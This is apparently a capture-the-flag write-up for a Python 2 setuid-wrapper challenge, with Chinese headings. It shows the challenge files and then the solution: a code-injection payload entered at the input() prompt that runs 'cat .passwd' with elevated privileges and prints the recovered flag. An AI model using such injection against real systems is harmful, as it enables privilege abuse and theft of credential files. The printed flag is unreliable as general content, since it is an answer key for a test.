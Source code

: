 ```sh
app-script-ch6@challenge02:~$ ll
total 32
dr-xr-x---  2 app-script-ch6-cracked app-script-ch6         4096 May 19  2019 ./
drwxr-xr-x 23 root                   root                   4096 Aug 18 21:10 ../
-rw-r-----  1 app-script-ch6         app-script-ch6           54 Aug  8  2017 .motd
-r--------  1 app-script-ch6-cracked app-script-ch6-cracked   33 May 20  2014 .passwd
-r-xr-x---  1 app-script-ch6         app-script-ch6          365 Jun 12  2014 ch6.py*
-rwsr-x---  1 app-script-ch6-cracked app-script-ch6         7260 May 19  2019 setuid-wrapper*
-r--r-----  1 app-script-ch6-cracked app-script-ch6          207 May 19  2019 setuid-wrapper.c
```

查看 ch6.py 文件

```python
#!/usr/bin/python2

import sys

def youLose():
    print "Try again ;-)"
    sys.exit(1)

try:
    p = input("Please enter password : ")
except:
    youLose()

with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```

再查看 setuid-wrapper.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

/* setuid script wrapper */

int main()
{
    setreuid(geteuid(), geteuid());
    system("/challenge/app-script/ch6/ch6.py");
    return 0;
}
```

```sh
app-script-ch6@challenge02:~$ ./setuid-wrapper
Please enter password : __import__('os').system('cat .passwd')
13373439872909134298363103573901
```
